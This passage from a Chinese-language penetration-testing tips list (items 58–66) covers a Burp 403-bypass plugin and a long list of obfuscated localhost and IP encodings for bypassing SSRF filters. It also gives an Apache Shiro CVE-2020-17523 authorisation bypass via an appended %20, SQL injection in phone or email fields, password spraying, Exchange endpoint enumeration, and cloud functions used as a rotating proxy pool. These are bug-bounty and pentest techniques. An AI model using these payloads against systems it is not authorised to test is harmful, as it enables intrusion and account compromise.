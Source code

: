 原文地址：https://www.infosecmatter.com/bug-bounty-tips-9-nov-16/\#8\_waf\_bypass\_using\_globbing

58、绕过403的一个BurpSuit插件，地址：  
https://github.com/sting8k/BurpSuite\_403Bypasser

59、SSRF bypass列表，基于localhost（127.0.0.1），如下：  
http://127.1/  
http://0000::1:80/  
http://\[::\]:80/  
http://2130706433/  
http://whitelisted@127.0.0.1  
http://0x7f000001/  
http://017700000001  
http://0177.00.00.01  
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/  
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/  
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/  
http://②⑧⑤②⓪③⑨①⑥⑥:80/  
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/  
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥:80/  
http://0xd8.0x3a.0xd6.0xe3  
http://0xd83ad6e3  
http://0xd8.0x3ad6e3  
http://0xd8.0x3a.0xd6e3  
http://0330.072.0326.0343  
http://000330.0000072.0000326.00000343  
http://033016553343  
http://3627734755  
http://%32%31%36%2e%35%38%2e%32%31%34%2e%32%32%37  
http://216.0x3a.00000000326.0xe3

原文链接：https://www.infosecmatter.com/bug-bounty-tips-10-dec-24/\#13\_ssrf\_bypass\_list\_for\_localhost\_127001

60、对于Apache shiro的CVE-2020-17523的未授权访问，是由于Spring+shiro结合造成的漏洞，可在路径后面添加`%20`，尝试访问该路径内容，造成未授权访问操作。  
61、在一些验证码登录，找回密码等地方需要输入手机号，邮箱号的话，尝试配合SQL注入联合查询方式，填写可控手机号，实际情况实际分析。  
62、密码爆破不如意，试试"密码喷洒攻击（Password Spray Attack）"法，多来收集用户名。  
63、Exchange的下的目录以及功能介绍：  
/autoDiscover/	自Exchange Server 2007开始推出的一项自动服务，用于自动配置用户在Outlook中邮箱的相关设置，简化用户登陆使用邮箱的流程。  
/ecp/“Exchange Control Panel”		Exchange管理中心，管理员用于管理组织中的Exchange的Web控制台  
/eWS/“Exchange Web Services”		Exchange Web Service,实现客户端与服务端之间基于HTTP的SOAP交互  
/mapi/		Outlook连接Exchange的默认方式，在2013和2013之后开始使用，2010 sp2同样支持  
/microsoft-Server-ActiveSync/		用于移动应用程序访问电子邮件  
/OAB/“Offline Address Book”		用于为Outlook客户端提供地址簿的副本，减轻Exchange的负担  
/owa/“Outlook Web APP”		Exchange owa 接口，用于通过web应用程序访问邮件、日历、任务和联系人等  
/powerShell/	用于服务器管理的Exchange管理控制台  
/Rpc/	早期的Outlook还使用称为Outlook Anywhere的RPC交互

64、针对于Exchange的账号格式，可以尝试：`domain\username、domian.com\username、username`  
65、一个验证域名是否使用了Exchange的脚本：`https://github.com/vysecurity/checkO365`  
66、使用云函数的多出口特性，可以将其作为代理池来用。思路大概为：  
流程：浏览器请求数据 \-\> 编写代理 \-\> 通过代理将数据传给api网关 \-\> api网关触发云函数并将参数作为event传入进云函数内 (然后反向流程将数据返回到浏览器中)  
所以我们大致编写代码步骤为：  
1、编写云函数，使用api网关做触发器，云函数主要处理api网关传来的数据，再将访问返回的数据包传会给api网关  
2、编写代理代码，主要接收浏览器传来的数据，并将数据整理传给api网关，然后回到第一步。  
注：这是一个思路，具体实现不局限于此，各位大佬各显神通吧\~


[image1]: https://github.com/Power7089/PenetrationTest-Tips/blob/main/img/01cyber.jpg
[image2]: https://github.com/Power7089/PenetrationTest-Tips/raw/main/img/403%E7%BB%95%E8%BF%87.jpg
[image3]: https://github.com/Power7089/PenetrationTest-Tips/raw/main/img/GOpher%E5%8D%8F%E8%AE%AE.png